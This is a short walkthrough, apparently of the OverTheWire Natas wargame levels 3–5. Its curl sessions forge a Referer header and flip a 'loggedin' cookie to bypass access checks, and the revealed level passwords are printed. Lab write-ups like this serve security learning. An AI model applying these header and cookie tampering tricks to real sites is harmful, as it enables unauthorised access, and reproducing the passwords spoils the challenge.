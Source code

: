 
# Level 3 -> 4:
```
abs@MacBookPro ~ % curl http://natas4.natas.labs.overthewire.org -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -s   
...
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
```

```
abs@MacBookPro ~ % curl natas4.natas.labs.overthewire.org/index.php -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/" -s
...
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
```

# Level 4 -> 5:
```
abs@MacBookPro ~ % curl natas5.natas.labs.overthewire.org -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK -s
...
<h1>natas5</h1>
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>
```

```
abs@MacBookPro ~ % curl natas5.natas.labs.overthewire.org -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK -i | grep Cookie
Set-Cookie: loggedin=0
```

```
abs@MacBookPro ~ % curl natas5.natas.labs.overthewire.org -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK -i -H "Cookie: loggedin=1" 
...
Set-Cookie: loggedin=1
...
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned</div>
```
